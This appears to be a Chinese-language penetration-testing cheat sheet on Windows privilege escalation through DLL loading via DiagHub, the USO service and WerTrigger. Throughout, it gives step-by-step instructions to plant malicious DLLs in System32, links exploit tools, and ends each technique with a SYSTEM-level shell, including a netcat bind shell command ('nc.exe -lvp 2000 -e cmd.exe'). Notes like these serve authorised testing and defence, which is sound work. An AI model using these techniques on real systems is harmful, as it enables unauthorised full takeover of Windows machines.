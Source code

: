  #### DiagHub
  	注意：从 1903 及更高版本开始，DiagHub 不能再用于加载任意 DLL。
	Microsoft 诊断中心标准收集器服务 (DiagHub) 是一种收集跟踪信息并通过 DCOM 以编程方式公开的服务。该 DCOM 对象可用于将 DLL 加载到 SYSTEM 进程中，前提是该 DLL 存在于C:\Windows\System32目录中
	创建一个恶意DLL，例如：payload.dll 并将其移动到C:\Windows\System32
	https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0
	构建 https://github.com/xct/diaghub
	diaghub.exe c:\\ProgramData\\ payload.dll
	默认payload将运行C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe
	替代工具：
	https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
	https://github.com/decoder-it/diaghub_exploit
 #### UsoDLLLoader
  	此技巧不再适用于最新版本的 Windows 10 Insider Preview
	如果我们在 Windows 或某些第三方软件中发现了一个特权文件写入漏洞，可以将我们自己的windowscoredeviceinfo.dll复制到C:\Windows\Sytem32\，然后由 USO 服务加载，以NT AUTHORITY\System执行任意代码
	构建https://github.com/itm4n/UsoDllLoader
	选择发布配置和 x64 架构。
	构建解决方案。
	DLL .\x64\Release\WindowsCoreDeviceInfo.dll
	加载程序 .\x64\Release\UsoDllLoader.exe。
	复制WindowsCoreDeviceInfo.dll到C:\Windows\System32\
	使用加载程序并等待 shell 或运行usoclient StartInteractiveScan并连接到端口 1337 上的绑定 shell。
 #### WerTrigger
  	克隆https://github.com/sailay1996/WerTrigger
	复制phoneinfo.dll到C:\Windows\System32\
	将Report.wer文件和WerTrigger.exe放在同一目录中。
	然后，运行WerTrigger.exe。
	以NT AUTHORITY\SYSTEM身份获得shell